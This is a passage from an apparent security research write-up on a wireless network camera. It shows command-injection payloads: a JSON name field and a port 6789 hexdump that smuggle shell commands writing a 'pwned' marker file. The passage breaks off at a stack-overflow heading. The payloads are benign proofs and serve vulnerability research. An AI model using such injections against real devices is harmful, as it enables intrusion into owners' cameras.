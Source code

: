 Here is an example payload:

```
-json
{"operator": "ap_update_name", "name": "test; cd tmp; echo hello > pwned", "length": 15, "md5": "ffffffffffffffffffffffffffffffff"}
```

Then you should get a confirmation from the camera:

```
-json
{"operator":"ap_update_name", "state":"OK"}
```

If you then send the contents of the file, in this case **hello camera :)**, you will have executed the commands.

## Port 6789 - Command Injection

Onto the next port, another nice and simple command injection, this time in the second payload string of the input. As we saw earlier when we reversed the service, they check if the string provided as payload 1 is a valid file, but there aren't any of these checks on the second string. As these strings are always put straight into a command with no further checks, we can get an injection on the second string.

![6789_cmd_injection.jpg](/assets/images/analysing_a_wireless_network_camera_part_1/6789_cmd_injection.png)

Here is a hexdump of a sample payload:

```
28000300 01002e1f 002e203b 20656368 │(···│··.·│·. ;│ ech│
6f202770 776e6564 27203e20 2f746d70 │o 'p│wned│' > │/tmp│
2f70776e 65642023 b009              │/pwn│ed #│··│
```

## Port 6789 - Stack Overflow
